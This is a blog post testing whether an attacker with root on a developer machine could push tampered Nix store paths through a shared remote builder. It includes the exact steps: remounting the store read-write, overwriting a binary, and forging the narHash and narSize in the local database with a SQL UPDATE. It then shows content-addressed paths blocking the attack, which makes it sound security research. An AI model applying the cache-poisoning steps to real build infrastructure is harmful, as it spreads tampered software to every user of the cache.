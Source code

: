 ```yaml
---
layout: post
title: Evaluating the security implications of a company-wide Nix remote builder
---
```


I am trying to test nix's security properties in this scenario:

- A company with a remote Nix builder
- `N` users have ssh write access to the remote builder
- A user's local machine is compromised, with the attacker having root access
- The attacker cannot SSH to the remote builder without user interaction (e.g. because of a YubiKey-backed SSH key)
- The builder is also used as a binary cache
- **Question**: can the attacker distribute tampered store paths to the rest of the company?

To test this scenario, I'm trying to tamper my own store paths :).

What I did:

- remount the store as read-write: `mount -o remount,rw /nix/store`
- `nix build nixpkgs#hello`
- tamper with `nixpkgs#hello`:

```
 echo foo > /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12/bin/hello
```

If I now try to copy this path to a remote store, I get the following:

```sh
nix copy --to ssh://foobar /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12 
copying path '/nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12' to 'ssh://foobar'error: hash mismatch importing path '/nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12';
         specified: sha256:1047k69qrr209c6jgls43620s53w2gw7gsgwx56j0b180bsn1qhw
         got:       sha256:0ilw1adqh4xrqzv37896i2l0966w0sdk8q2wm0mmwmqjlplbq28x
error: unexpected end-of-file
```

Where are the 2 hashes coming from? 

The manpage for `nix store verify` says that the command checks that a store path's

> contents match the NAR hash recorded in the Nix database

and running 

```
nix store verify /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12 
path '/nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12' was modified! expected hash 'sha256:1047k69qrr209c6jgls43620s53w2gw7gsgwx56j0b180bsn1qhw', got 'sha256:0ilw1adqh4xrqzv37896i2l0966w0sdk8q2wm0mmwmqjlplbq28x'
```

returns the same two hashes, so I went looking in the nix db, and of the 3 tables there:

```sql
sqlite> .tables
DerivationOutputs  Refs               ValidPaths  
```

`ValidPaths` seemed the most promising (as it's the only one with a `hash` column).

But searching for the `specified` or `got` hashes returned no results:

```sql
sqlite> SELECT * from ValidPaths WHERE hash = 'sha256:1047k69qrr209c6jgls43620s53w2gw7gsgwx56j0b180bsn1qhw' OR hash = 'sha256:0ilw1adqh4xrqzv37896i2l0966w0sdk8q2wm0mmwmqjlplbq28x';
sqlite> 
```

The key thing here is that in Nix, hashes are stored/displayed in many different formats:

- the hash in the DB is base16
- the hash in the `nix copy` output is base32
- the hash in the `nix verify` output is base32
- the hash in the `nix path-info` output is SRI base64
- the hash in the `nix hash path` output is SRI base64

I have no idea why this is the case, and it is very confusing.

So in the interest of clarity, I'll provide the SRI form (using `nix hash to-sri`) of the two hashes above:

- `specified` : `sha256-HOJg9QIoLCBN6fzpd/gTfBQNhBlE0ycNS0DkjJOZh4A=`
- `got`: `sha256-HQm86KUSV14rqFxgNJsG3JgEqIgmoTP2x7kTiJsKnEY=`

`nix path-info` returns the **expected** `narHash`:

```
❯ nix path-info --json /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12 | jq -r .[0].narHash
sha256-HOJg9QIoLCBN6fzpd/gTfBQNhBlE0ycNS0DkjJOZh4A=
```


`nix hash path` returns the **actual** `narHash`:

```
❯ nix hash path /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12
sha256-HQm86KUSV14rqFxgNJsG3JgEqIgmoTP2x7kTiJsKnEY=
```

Two things to note:

- The store path is actually copied over to the remote host, but it is **not** added to its nix db's `ValidPaths` table, thereby making it invisible.
- The `narHash` check is performed by the remote store

An attacker could, at this point, modify the `narHash` (and the `narSize`[^0]) in the local Nix db:

```sql
sqlite> UPDATE ValidPaths
   ...> SET hash = 'sha256:1d09bce8a512575e2ba85c60349b06dc9804a88826a133f6c7b913889b0a9c46',
   ...> narSize = 125720
   ...> WHERE path = '/nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12';
```

And now:

```bash
❯ nix copy --to ssh://foobar /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12 

❯ echo $?
0
```

### Potential mitigations

The issue here is that paths in the store are input-addressed, meaning that
once they're in the store, there's nothing (apart from signatures, but they're
not relevant here) that prevents them from being tampered with.

Another option (still partly in the works, AFAIU) are proper [content-addressed
paths](https://github.com/tweag/rfcs/blob/cas-rfc/rfcs/0062-content-addressed-paths.md).
If we do:

```
❯ nix store make-content-addressed /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12
rewrote '/nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12' to '/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12'

❯ nix path-info --json /nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12 | jq .
[
  {
    "path": "/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12",
    "narHash": "sha256-HQm86KUSV14rqFxgNJsG3JgEqIgmoTP2x7kTiJsKnEY=",
    "narSize": 125720,
    "references": [
      "/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12",
      "/nix/store/ah5d5gjqyv319ir95lm8bc44ikkzm10i-glibc-2.34-115"
    ],
    "ca": "fixed:r:sha256:0ilw1adqh4xrqzv37896i2l0966w0sdk8q2wm0mmwmqjlplbq28x",
    "registrationTime": 1653987573
  }
]
```

we can see that the path now has an additional field, `ca`, which contains the hash of its actual content.

This cannot be tampered with, unless one is able to break the hashing algorithm and produce a collision.

After tampering with the `narHash` and the `narSize` as above, we are now presented with this error:

```
nix copy --to ssh://foobar /nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12
copying path '/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12' to 'ssh://foobar'warning: path '/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12' claims to be content-addressed but isn't
error: cannot add path '/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12' to the Nix store because it claims to be content-addressed but isn't
error: unexpected end-of-file
```

### Conclusions

Adding a remote builder opens up the possibility that an attacker might sneak
in malicious store paths, which could be very hard to detect. In effect, the
remote builder's store becomes a db with multiple writers, each of which
has access full read/write access.

CA derivations provide a mitigation for this usecase, and they rely on the security properties of the hashing algorithm.

It's important to be aware of this when evaluating a nix build infrastructure.

[^1]: I haven't shown this for brevity, but the `nix copy` command showed an error for the `narSize` mismatch.
